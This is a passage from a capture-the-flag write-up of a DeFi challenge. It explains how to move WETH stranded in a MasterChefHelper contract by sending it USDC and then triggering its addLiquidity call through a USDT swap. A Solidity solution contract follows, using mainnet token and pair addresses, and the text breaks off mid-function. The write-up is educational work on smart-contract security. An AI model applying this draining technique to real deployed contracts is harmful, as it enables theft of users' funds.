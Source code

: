 This is a classic DeFi challenge, where you need to move the DeFi Legos around to achieve a goal.

Someone sent some WETH to a contract and you need to find a way how to move them away from the contract. Luckily, the
contract provides a way:
```solidity
function _addLiquidity(address token0, address token1, uint256 minAmountOut) internal {
    (,, uint256 amountOut) = router.addLiquidity(
        token0, 
        token1, 
        ERC20Like(token0).balanceOf(address(this)), 
        ERC20Like(token1).balanceOf(address(this)), 
        0, 
        0, 
        msg.sender, 
        block.timestamp
    );
    require(amountOut >= minAmountOut);
}
```

You can trigger it to provide liquidity to a Uniswap V2 pool. This is the goal, and you need to find the series of steps
that gets you there. In other words, you need to know what's required to add liquidity to a Uniswap V2 pool.

The steps I discovered:
1. Buy 10 ether worth of USDC and send them to `MasterChefHelper`. We need exactly this amount because, when providing
liquidity in Uniswap, the proportion of tokens must be 50/50. In my case, thats 10 WETH and an equal amount of USDC.
1. Buy some amount of USDT. We need it to trigger `swapTokenForPoolToken` in `MasterChefHelper`. The function takes
our USDT, splits them, buys equal amount of WETH and USDC (I used `poolId` 1), and adds them as liquidity to a Uniswap
pool.
1. When `MasterChefHelper` calls `router.addLiquidity`, it tells the pool to take all its tokens, including the initial
10 WETH and our USDC.
1. Done!

My solution:
```solidity
contract RescueSolve {
    UniswapV2RouterLike public constant router =
        UniswapV2RouterLike(0xd9e1cE17f2641f24aE83637ab66a2cca9C378B9F);

    WETH9 public constant weth =
        WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    ERC20Like public constant usdc =
        ERC20Like(0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48);

    ERC20Like public constant usdt =
        ERC20Like(0xdAC17F958D2ee523a2206206994597C13D831ec7);

    IPair constant pair = IPair(0xB4e16d0168e52d35CaCD2c6185b44281Ec28C9Dc); // USDC-WETH
    IPair constant pair2 = IPair(0x0d4a11d5EEaaC28EC3F61d100daF4d40471f1852); // USDT-WETH

    constructor() payable {}

    function solve(address mcHelper) public {
        (uint112 reserveUSDC, uint112 reserveWETH, ) = pair.getReserves();
        uint256 usdcAmount = router.getAmountOut(
            10 ether,
            reserveWETH,
```